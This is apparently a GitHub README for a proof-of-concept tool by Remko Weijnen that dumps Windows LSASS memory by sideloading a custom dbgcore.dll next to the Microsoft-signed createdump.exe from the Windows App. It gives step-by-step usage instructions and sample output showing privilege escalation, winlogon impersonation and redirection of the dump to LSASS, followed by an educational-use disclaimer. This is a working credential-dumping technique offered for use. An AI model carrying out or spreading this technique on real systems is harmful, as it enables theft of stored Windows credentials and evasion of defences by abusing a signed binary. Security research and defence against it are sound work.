 # <img src="https://store-images.s-microsoft.com/image/apps.54073.13902538874112719.524cfb4a-0a7d-45be-bae7-dc1bb3a1c4af.bfaf52ba-a25c-4b1d-b32b-07d3e5c8bb8e?h=210" alt="Windows App" width=32/> Windows App LSASS Dump - Proof of Concept

This project demonstrates how to dump the LSASS process using the `createdump.exe` tool, a Microsoft signed executable, from the Windows App, leveraging a custom hook to enable process access to `LSASS`.

## How to Use

1. **Copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)**
2. **place `dbgcore.dll` from this repo in the same folder**
3. **execute createdump (optionally provide parameters)**

## note: needs admin rights.

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```

## Disclaimer

This project is intended for educational purposes only. Misuse of this tool could violate privacy and security policies.
